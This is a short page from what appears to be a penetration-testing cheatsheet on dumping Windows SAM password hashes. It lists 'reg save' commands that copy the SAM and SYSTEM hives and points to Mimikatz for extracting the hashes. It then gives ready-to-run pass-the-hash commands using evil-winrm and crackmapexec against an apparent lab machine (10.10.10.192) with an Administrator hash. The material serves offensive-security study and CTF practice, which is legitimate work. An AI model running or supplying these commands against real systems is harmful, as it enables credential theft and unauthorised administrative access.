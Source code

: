 ```yaml
---
layout: default
title: SAM
parent: CHEATSHEETS
has_children: true
has_toc: false
---
```


{% include toc.html %}

## Rerences

[Mimikatz and LSADUMP](https://www.ultimatewindowssecurity.com/blog/default.aspx?p=c2bacbe0-d4fc-4876-b6a3-1995d653f32a)

## Extracting Passwords from SAM
The `SAM` and `SYSTEM` files cannot be copied when in use, but they can be backed up using:
```
cmd /c reg save HKLM\SAM SAM
cmd /c reg save HKLM\SYSTEM SYSTEM
```

In `CommandVM`, use `Mimikatz` to extract the hashes:

![Mimikatz](images/sam-passwords/mimikatz.png)

<br />

You can use either `Evil-WinRM` or `CME` to pass the hash:
```
// Evil.
evil-winrm -i 10.10.10.192 -u Administrator -H 67ef902eae0d740df6257f273de75051

// CME.
crackmapexec smb 10.10.10.192 -u Administrator -H 67ef902eae0d740df6257f273de75051
crackmapexec winrm 10.10.10.192 -u Administrator -H 67ef902eae0d740df6257f273de75051
```
